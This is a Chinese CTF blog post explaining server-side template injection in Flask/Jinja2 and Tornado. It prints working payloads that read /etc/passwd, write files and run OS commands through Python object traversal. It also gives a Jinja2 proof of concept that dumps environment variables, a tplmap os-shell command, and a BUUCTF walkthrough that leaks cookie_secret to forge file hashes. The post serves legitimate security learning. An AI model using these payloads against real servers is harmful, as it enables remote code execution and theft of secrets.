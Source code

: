 ```yaml
---
layout: post
title:  SSTI
date:   2021-07-23 00:01:01 +0300
image:  2021-07-23-woman.jpg
tags:   [ctf,web,SSTI]
---
```


ssti注入又称服务器端模板注入攻击(Server-Side Template Injection)，和sql注入一样，也是由于接受用户输入而造成的安全问题。

它的实质就是服务器端接受了用户的输入，没有经过过滤或者说过滤不严谨，将用户输入作为web应用模板的一部分，但是在进行编译渲染的过程中，执行了用户输入的恶意代码，造成信息泄露，代码执行，getshell等问题。

这个问题主要是出在web应用模板渲染的过程中，目前比较流行的渲染引擎模板主要有：smarty，twig，jinja2，freemarker，velocity。

flask有两种渲染方式，render_template() 和 render_template_string()。

render_template()是渲染文件的，render_template_string是渲染字符串的，如果错误的使用render_template_string渲染方式的话，就会产生模板注入。

在Jinja2模板引擎中，`{{}}`是变量包裹标识符。`{{}}`并不仅仅可以传递变量，还可以执行一些简单的表达式。

实行文件读写和命令执行的基本操作：获取基本类->获取基本类的子类->在子类中找到关于命令执行和文件读写的模块

python的几个函数解析：

* \_\_class\_\_ 返回调用的参数类型
* \_\_bases\_\_ 返回类型列表
* \_\_mro\_\_ 此属性是在方法解析期间寻找基类时考虑的类元组
* \_\_subclasses\_\_() 返回object的子类
* \_\_globals\_\_ 函数会以字典类型返回当前位置的全部全局变量与func_globals 等价

获取基本类(object)：

* ''.\_\_class\_\_.\_\_mro\_\_[2]
* {}.\_\_class\_\_.\_\_bases\_\_[0]
* ().\_\_class\_\_.\_\_bases\_\_[0]
* [].\_\_class\_\_.\_\_bases\_\_[0]
* request.\_\_class\_\_.\_\_mro\_\_[9]   //在flask的jinja2模块渲染是可用

获取基本类的子类：

* object.\_\_subclasses\_\_()
* //''.\_\_class__.__mro\_\_[2].\_\_subclasses\_\_()
* //...基于上面的其他写法

快速查找该引用对应的位置：

* ''.\_\_class\_\_.\_\_mro\_\_[2].\_\_subclasses\_\_().index(file)

**文件读写：**

在子类里面有<type 'file'>这个引用的索引，可以直接调用进行文件读写：

* ''.\_\_class\_\_.\_\_mro\_\_[2].\_\_subclasses\_\_()[40]

```assembly
>>>''.__class__.__mro__[2].__subclasses__()[40]
<type 'file'>
```

* ''.\_\_class\_\_.\_\_mro\_\_[2].\_\_subclasses__()\[40\]("/etc/passwd").read()

将read()改为write()就可以进行写操作：

* ''.\_\_class\_\_.\_\_mro\_\_[2].\_\_subclasses__()\[40\]("/root/Desktop/test.txt", "a").write()

或者在基本类的子类中找到重载过的\_\_init\_\_类(在基本类的子类中的一些类属性基本都有引用)，查看引用\_\_builtins\_\_

* ''.\_\_class\_\_.\_\_mro\_\_[2].\_\_subclasses\_\_()[59].\_\_init\_\_.\_\_globals\_\_['\_\_builtins\_\_']

读取文件

* ''.\_\_class\_\_.\_\_mro\_\_[2].\_\_subclasses\_\_()[59].\_\_init\_\_.\_\_globals\_\_\['\_\_builtins\_\_']\['file'\]("/etc/passwd").read()

**命令执行：**

方法一：利用eval进行命令执行

```assembly
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')
```

方法二：利用commands实现命令执行：

```assembly
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[144]('whoami')}
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('whoami').read()
```

在进行jinja2模板注入时，直接将这些payload放入{{}}中作为变量执行即可获得想要的结果，如果存在对应键不在相应位置，那么就需要我们从基本类开始找了，一般来说应该是一样的，这个需要看python环境.

### [Flask]SSTI

获取eval函数并执行任意python代码的POC：

```assembly
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

打印环境变量

```assembly
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("env").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

`Hello HOSTNAME=fd9e0b6fbf88 PYTHON_PIP_VERSION=19.3.1 HOME=/root GPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421D PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/ffe826207a010164265d9cc807978e3604d18ca0/get-pip.py SERVER_SOFTWARE=gunicorn/20.0.0 PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin LANG=C.UTF-8 PYTHON_VERSION=3.6.9 PWD=/app PYTHON_GET_PIP_SHA256=b86f36cc4345ae87bfd4f10ef6b2dbfa7a872fbff70608a1e43944d283fd0eee FLAG=flag{5f4fc78a-83b1-45be-b2cb-97dc582da1c0}`

tplmap脚本

```assembly
python tplmap.py -u "http://node3.buuoj.cn:29153/?name=1"
python tplmap.py -u "http://node3.buuoj.cn:29153/?name=1" --os-shell
env打印环境变量
>>>env
```

### [护网杯 2018]easy_tornado

打开页面显示

/flag.txt(/file?filename=/flag.txt&filehash=c1aa029a84dfff74f2b8cf5c8c9651c4)
/welcome.txt(/file?filename=/welcome.txt&filehash=61643ca97971f3920d8d8a2f6349ce2a)
/hints.txt(/file?filename=/hints.txt&filehash=f03979d2e893b7ff1e483e655e07e06e)

* /flag.txt
  flag in /fllllllllllllag

* /welcome.txt
  render

* /hints.txt
  md5(cookie_secret+md5(filename))

render是生成模板的函数，想到模板注入STTI

将filename=/flag.txt改为fllllllllllllag，报错

### Error

url为`http://46bdb449-ef6e-4b5d-8992-64c9b6135081.node4.buuoj.cn:81/error?msg=Error`

在读取文件失败的这个链接中，发现STTI漏洞

在Tornado的前端页面模板中，Tornado提供了一些对象别名来快速访问对象

- `escape`: alias for [`tornado.escape.xhtml_escape`](https://www.tornadoweb.org/en/latest/escape.html#tornado.escape.xhtml_escape)
- `xhtml_escape`: alias for [`tornado.escape.xhtml_escape`](https://www.tornadoweb.org/en/latest/escape.html#tornado.escape.xhtml_escape)
- `url_escape`: alias for [`tornado.escape.url_escape`](https://www.tornadoweb.org/en/latest/escape.html#tornado.escape.url_escape)
- `json_encode`: alias for [`tornado.escape.json_encode`](https://www.tornadoweb.org/en/latest/escape.html#tornado.escape.json_encode)
- `squeeze`: alias for [`tornado.escape.squeeze`](https://www.tornadoweb.org/en/latest/escape.html#tornado.escape.squeeze)
- `linkify`: alias for [`tornado.escape.linkify`](https://www.tornadoweb.org/en/latest/escape.html#tornado.escape.linkify)
- `datetime`: the Python [`datetime`](https://docs.python.org/3/library/datetime.html#module-datetime) module
- `handler`: the current [`RequestHandler`](https://www.tornadoweb.org/en/latest/web.html#tornado.web.RequestHandler) object
- `request`: alias for [`handler.request`](https://www.tornadoweb.org/en/latest/httputil.html#tornado.httputil.HTTPServerRequest)
- `current_user`: alias for [`handler.current_user`](https://www.tornadoweb.org/en/latest/web.html#tornado.web.RequestHandler.current_user)
- `locale`: alias for [`handler.locale`](https://www.tornadoweb.org/en/latest/locale.html#tornado.locale.Locale)
- `_`: alias for [`handler.locale.translate`](https://www.tornadoweb.org/en/latest/locale.html#tornado.locale.Locale.translate)
- `static_url`: alias for [`handler.static_url`](https://www.tornadoweb.org/en/latest/web.html#tornado.web.RequestHandler.static_url)
- `xsrf_form_html`: alias for [`handler.xsrf_form_html`](https://www.tornadoweb.org/en/latest/web.html#tornado.web.RequestHandler.xsrf_form_html)
- `reverse_url`: alias for [`Application.reverse_url`](https://www.tornadoweb.org/en/latest/web.html#tornado.web.Application.reverse_url)

Handler指向的处理当前这个页面的RequestHandler对象

`error?msg={{handler.settings}}`

得到cookie_secret

{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': '315452ec-ba55-443d-8aeb-083556f7414f'}

构造payload

`/file?filename=/fllllllllllllag&filehash=96c1fd70803f8c78098c9f2fc55af689`

得到flag

/fllllllllllllag
flag{450f5e8e-d282-46bd-80aa-c2042681eb5d}